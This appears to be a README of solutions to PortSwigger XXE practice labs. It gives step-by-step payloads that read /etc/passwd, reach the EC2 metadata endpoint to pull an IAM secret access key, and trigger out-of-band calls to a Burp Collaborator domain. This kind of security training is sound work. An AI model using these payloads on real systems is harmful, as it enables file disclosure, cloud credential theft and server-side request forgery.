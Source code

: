 **Lab: Exploiting XXE using external entities to retrieve files**

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
Replace the productId number with a reference to the external entity: &xxe;. The response should contain "Invalid product ID:" followed by the contents of the /etc/passwd file.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/4b659553-dd2e-4d5c-841a-1cab3610b62a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/a68a9acb-e875-4d12-87af-d7e5c8796230)

**Lab: Exploiting XXE to perform SSRF attacks**

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
Replace the productId number with a reference to the external entity: &xxe;. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
Iteratively update the URL in the DTD to explore the API until you reach /latest/meta-data/iam/security-credentials/admin. This should return JSON containing the SecretAccessKey.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d38497ba-f4c7-4125-872a-63a90a358418)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/b6f0cd29-de9b-41f8-9496-324addf1e1b4)

**Lab: Blind XXE with out-of-band interaction**

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
Replace the productId number with a reference to the external entity:

&xxe;
Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

